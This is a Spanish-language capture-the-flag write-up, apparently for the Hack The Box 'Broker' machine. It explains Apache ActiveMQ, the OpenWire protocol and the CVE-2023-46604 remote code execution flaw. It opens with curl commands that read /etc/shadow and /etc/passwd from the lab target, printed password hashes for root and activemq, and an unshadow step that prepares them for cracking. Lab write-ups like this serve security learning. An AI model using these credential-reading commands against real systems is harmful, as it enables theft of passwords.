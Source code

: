 
```bash
$: curl -s http://10.10.11.243:81/etc/shadow | grep -E "activemq|root" > shadow
root:$y$j9T$iDBjbum43YnvVKbOLNqgQ0$S0vmvHYH4M69yMjRUw2ioBEN6ElqehZQud6Lr/IQnJC:19720:0:99999:7:::
activemq:$y$j9T$5eMce1NhiF0t9/ZVwn39P1$pCfvgXtARGXPYDdn2AVdkCnXDf7YO7He/x666g6qLM5:19666:0:99999:7:::
$: curl -s http://10.10.11.243:81/etc/passwd | grep -E "activemq|root" > passwd
root:x:0:0:root:/root:/bin/bash
activemq:x:1000:1000:,,,:/home/activemq:/bin/bash
$: unshadow passwd shadow > shadowed
```

-------------------------------------

### ¿Que es active MQ?

Es internet nos lo definen como un broker de mensajes (al principio creia que se trataba de un chat, pero leyendo más me di cuenta que no)  

Con mensajes nos referimos a la trasnferencia de datos estrcuturados (XML, JSON u objetos serializados) para que aplicaciones se comuniquen entre si. 
El broker de mensajes, (`ActiveMQ`), actúa como un intermediario que facilita y gestiona dicha comunicación (enruta mensajes de una aplicación a 
otra y adapta el formato del mensaje para que le sea legible)

![](/assets/images/htb-broker/activemq.png)

Si una aplicación Cliente utiliza Java como lenguaje, se comunica con el broker ActiveMQ por el protocolo `OpenWire`, mediante datos en binario

- Información extraida de [attackerkb](https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis)

### CVE-2023-46604

Este protocolo `OpenWire` escucha por defecto en el puerto `61616` para pasarle los datos recibidos a `ActiveMQ`. Este componente, es el vulnerable
a un RCE (ejecución arbitraria de comandos) mediante un archivo XML especialmente diseñado para ello.

-------------------------------------

# Explotando Active MQ
